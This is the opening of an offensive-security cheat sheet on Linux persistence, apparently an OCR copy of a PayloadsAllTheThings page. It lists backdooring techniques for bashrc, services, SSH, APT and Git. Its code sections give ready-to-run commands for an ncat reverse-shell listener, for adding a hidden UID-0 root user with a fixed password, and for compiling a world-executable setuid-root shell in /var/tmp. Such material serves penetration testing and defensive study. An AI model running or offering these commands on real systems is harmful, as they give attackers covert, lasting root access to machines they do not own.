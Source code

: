 # Linux - Persistence

##
#
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md
#
##

## Summary

* [Basic reverse shell](#basic-reverse-shell)
* [Add a root user](#add-a-root-user)
* [Suid Binary](#suid-binary)
* [Crontab - Reverse shell](#crontab---reverse-shell)
* [Backdooring a user's bash_rc](#backdooring-a-users-bash_rc)
* [Backdooring a startup service](#backdooring-a-startup-service)
* [Backdooring a user startup file](#backdooring-a-user-startup-file)
* [Backdooring Message of the Day](#backdooring-message-of-the-day)
* [Backdooring a driver](#backdooring-a-driver)
* [Backdooring the APT](#backdooring-the-apt)
* [Backdooring the SSH](#backdooring-the-ssh)
* [Backdooring Git](#backdooring-git)
* [Additional Linux Persistence Options](#additional-persistence-options)
* [References](#references)


## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```
